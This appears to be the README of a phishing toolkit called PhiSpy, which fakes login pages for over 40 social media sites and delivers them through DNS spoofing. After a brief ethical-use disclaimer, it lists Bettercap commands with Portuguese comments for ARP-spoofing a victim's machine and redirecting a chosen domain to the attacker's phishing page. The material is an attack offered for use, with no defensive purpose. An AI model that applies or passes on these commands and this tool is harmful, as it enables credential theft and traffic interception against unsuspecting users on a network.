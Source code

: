 # phispytool
PhiSpy is a tool created in HTML/CSS/JAVASCRIPT & PHP to phish servers created for DNS spoofing.

It's a Phishing Tool Updated w/Mail Services based and w/added out service from our servers, just to add 40+ tools of Social Media's.
The PhiSpy is designed to create a range quantity of website's to phish in only one weapon.

Disclaimer: This tool was made for ethical usage only. 
DNS changing in Wire's that aren't your's and DEFACEMENT in other websites or mail attack's of any type, can lead to prison. Please do not make any victim from this tool.
.
.
.
.
.
.
.
.

Comandos Do Bettercap para ARP & DNS Spoof

NET.RECON ON/OFF	                                    // #Inicialize a varredura de rede para marcar a máquina em "uso", máquina do invasor e da vítima

NEW.SHOW + set arp.spoof.targets (Ip da Vitima)       // #Visualize máquinas e defina a máquina da vítima

ARP.SPOOF ON + set dns.spoof.adress (Ip do Atacante)	// #Habilite o Spoof e defina o IP de redirecionamento do Spoof

set dns.spoof.domains (Dominio Desejado para Trocar)	// #Definir DOMÍNIO (TROCA POR PHISHING)
